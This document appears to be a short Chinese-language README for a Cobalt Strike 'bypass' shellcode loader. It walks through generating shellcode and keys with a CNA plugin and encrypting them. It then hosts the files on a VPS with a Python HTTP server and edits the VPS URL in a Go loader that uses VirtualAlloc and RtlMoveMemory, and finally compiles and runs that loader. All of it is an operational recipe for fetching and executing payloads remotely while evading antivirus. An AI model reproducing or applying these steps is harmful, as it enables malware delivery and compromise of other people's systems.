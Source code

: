 1. CS加载Bypass_Remake.cna插件，生成shellcode和加密key1、key2：
"Attack" > "BypassShellCode"

2. 将得到的shellcode和key的值分别做加密：
`process_shellcode.exe shellcode`
`process_shellcode.exe key1`
`process_shellcode.exe key2`

3. 得到的三个结果分别手动保存为文件放在vps上
code.txt
k1.txt
k2.txt

4. 在vps上起一个服务器：
`python -m SimpleHTTPServer 80`

5. 修改shellcode_loader.go中的vps请求地址即可：
```
var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory = ntdll.MustFindProc("RtlMoveMemory")
	URI           = "http://vps:80/"
)
```

6. 编译go文件：
`go build shellcode_loader.go`

7. 运行shellcode_loader.exe即可